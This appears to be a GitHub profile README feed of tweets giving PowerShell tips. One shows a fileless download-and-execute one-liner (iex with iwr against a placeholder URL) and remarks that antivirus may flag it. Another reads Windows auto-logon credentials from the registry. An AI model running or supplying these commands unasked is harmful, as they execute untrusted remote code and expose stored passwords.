 <h3><a href="https://twitter.com/endi24"><img height=16 src="https://upload.wikimedia.org/wikipedia/sco/9/9f/Twitter_bird_logo_2012.svg"></a> Latest Tweets</h3>

<!-- BLOG-POST-LIST:START -->
- [iwr  | iex👍👍👍](https://rss.app/articles/cb4e791f6f6d729c074351566bd3a7c508111d6e1a31b6e890b6c809918773d2f150f40f6adcd760f6a36b79d815099266d169e1c3)
- [-UseBasicParsingThis parameter has been deprecated. Beginning with PowerShell 6.0.0, all Web requests use basic parsing only. This parameter is included for backwards compatibility only and any use of it has no effect on the operation of the cmdlet.](https://rss.app/articles/cb4e791f6f6d729c074351566bd3a7c508111d6e1a31b6e890b6c809918773d2f150f40f6adcd760f0a16e7bda17099361d660e2c2)
- [For preview use PowerShell ISE !!It displays the code that was downloaded, rather than executing it directly:$file = $psise.CurrentPowerShellTab.Files.Add()$file.Editor.text = (Invoke-WebRequest -Uri ' ' -UseBasicParsing).Content](https://rss.app/articles/cb4e791f6f6d729c074351566bd3a7c508111d6e1a31b6e890b6c809918773d2f150f40f6adcd76ff4a16274d9100d9b63dd68e3c1)
- [Remote content download and loading without touching the disk (file-less):For example:iex(iwr(" "))Or:iex -Command (iwr 'https://URL' -UseBasicParsing).Contentiwr = Invoke-WebRequestiex = Invoke-ExpressionEasy, but could be flagged by your AV.](https://rss.app/articles/cb4e791f6f6d729c074351566bd3a7c508111d6e1a31b6e890b6c809918773d2f150f40f6adcd76ff5a6627dd8100a9667dd6ce8c4)
- [Search registry for auto-logon credentialsThe following command will get the auto-login credentials from the registry:Get-ItemProperty 'HKLM:\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon' | select "Default*"](https://rss.app/articles/cb4e791f6f6d729c074351566bd3a7c508111d6e1a31b6e890b6c809918773d2f150f40f6adcd76df1a46278d8130e9363d16ee3c5)
<!-- BLOG-POST-LIST:END -->

